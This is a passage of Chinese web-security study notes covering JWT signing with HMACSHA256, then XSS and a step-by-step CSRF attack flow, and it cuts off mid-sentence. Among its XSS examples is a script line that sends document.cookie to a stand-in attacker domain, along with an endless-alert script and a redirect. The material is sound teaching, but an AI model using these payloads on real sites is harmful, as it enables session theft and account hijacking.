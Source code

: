 Signature 使用经过base64编码的header和payload，另外需要提供一个密钥，进行签名

```
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  secret)
```

上述使用的是 `HMACSHA256` 算法，加密后的header和payload是通过'.'进行连接的。

项目中一般会使用对应的包（比如jsonwebtoken）来进行JWT的token签发和验证，secret通常也会存储到环境变量中。

## XSS和CSRF

XSS 全称“跨站脚本”，是注入攻击的一种。其特点是不对服务器端造成任何伤害，而是通过一些正常的站内交互途径，例如发布评论，提交含有 JavaScript 的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本。

比如：

单纯的恶作剧：

```js
while (true) {
  alert('你关不掉我！')
}
```

窃取取cookie：

```js
new Image().src = 'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie
```

恶意跳转：

```html
<script>
  window.location.href="http://www.baidu.com";
</script>
```

CSRF 的全称是“跨站请求伪造”，顾名思义，是伪造请求，冒充用户在站内的正常操作。攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的。

一个典型的CSRF攻击有着如下的流程：

1. 受害者登录http://a.com，并保留了登录凭证（Cookie）。

2. 攻击者引诱受害者访问了http://b.com。

3. http://b.com 向 http://a.com 发送了一个请求：http://a.com/act=xx。浏览器会默认携带http://a.com的Cookie。

4. http://a.com接收到请求后，对请求进行验证，并确认是受害者的凭证，误以为是受害者自己发送的请求。

5. http://a.com以受害者的名义执行了act=xx。

6. 攻击完成，攻击者在受害者不知情的情况下，冒充受害者，让http://a.com执行了自己定义的操作。


比如一些网站的资源操作接口是通过get访问的，GET类型的CSRF利用非常简单，只需要一个HTTP请求，
